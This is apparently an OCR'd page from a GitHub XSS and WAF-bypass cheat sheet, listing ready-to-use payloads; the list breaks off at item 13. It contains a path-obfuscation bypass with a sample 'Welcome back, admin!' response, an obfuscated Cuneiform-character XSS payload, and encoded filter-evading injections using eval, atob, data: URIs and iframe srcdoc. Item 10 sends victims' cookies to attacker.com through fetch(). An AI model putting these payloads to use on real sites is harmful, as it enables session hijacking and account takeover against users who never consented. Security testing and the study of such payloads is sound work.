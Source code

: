 ```http
HTTP/1.1 302 Found
Location: /login
```

If the WAF or server uses **case-sensitive matching** or fails to normalize the path, your obfuscated request could bypass filtering logic and _still hit the protected endpoint_.

Vulnerable Response:

```http
HTTP/1.1 200 OK
Content-Type: text/html
...
Welcome back, admin!
```

Another XSS, Cuneiform-alphabet based:

```html
"><img/src=x onerror="𐂃='',𐃨=!𐂃+𐂃,𐂝=!𐃨+𐂃,𐃌=𐂃n+{},𐁉=𐃨[𐂃++],𐃵=𐃨[𐂓=𐂃],𐀜=++𐂓+𐂃,𐂠=𐃌[𐂓+𐀜],𐃨[𐂠+=𐃌[𐂃]+(𐃨.𐂝+𐃌)[𐂃]+𐂝[𐀜]+𐁉+𐃵+𐃨[𐂓]+𐂠+𐁉+𐃌[𐂃]+𐃵][𐂠](𐂝[𐂃]+𐂝[𐂓]+𐃨[𐀜]+𐃵+𐁉+'(document.domain)')()"

```

## HTML Injection Section


```html
📌 1. HTML Context (Bypass Filter <script>)
<img src=x onerror="window['al'+'ert']('XSS by Ghost')">

📌 2. Attribute Context (Bypass Filter Quote)
<input value=0 onfocus=eval(atob('YWxlcnQoJ1hTUyBieSBHcm9rJyk=')) autofocus>

📌 3. JavaScript Context (Bypass Filter eval dan alert)
Function(String.fromCharCode(97,108,101,114,116))('XSS by Ghost')

📌 4. URL Context (Bypass Filter Protokol)
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTIGJ5IEdyb2snKTwvc2NyaXB0Pg==">Click me</a>

📌 5. WAF Bypass (Obfuscation Hard Level)
<iframe srcdoc="<svg onload=eval(atob('d2luZG93W2F0b2IoJ1lXbHhjblJvJykqXQ==')+'('+atob('J1hTUyBieSBHcm9rJw==')+')')>">

📌 6. HTML Context with Event Handler (Bypass Filter Dasar)
<div onmouseover="window['al'+'ert']('XSS by Ghost')">Hover me</div>

📌 7. Attribute Context with Unicode Obfuscation
<img src=x o\u006eerror="a\u006cert('XSS by Ghost')">

📌 8. JavaScript Context with Hex Encoding
eval("\x61\x6c\x65\x72\x74('XSS by Ghost')")

📌 9. HTML Context with HTML Entities
<img src=x onerror="alert('XSS by Ghost')">

📌 10. Data Exfiltration (Send Cookies To Attacker)
<img src=x onerror="fetch('https://attacker.com?cookie='+document.cookie)">

📌 11. SVG Context (Bypass Filter <script>)
<svg><script>alert('XSS by Ghost')</script></svg>

📌 12. Inline JavaScript Context (Bypass Filter alert)
javascript:Function(String.fromCharCode(97,108,101,114,116))('XSS by Ghost')

📌 13. HTML Context with Double Encoding
```
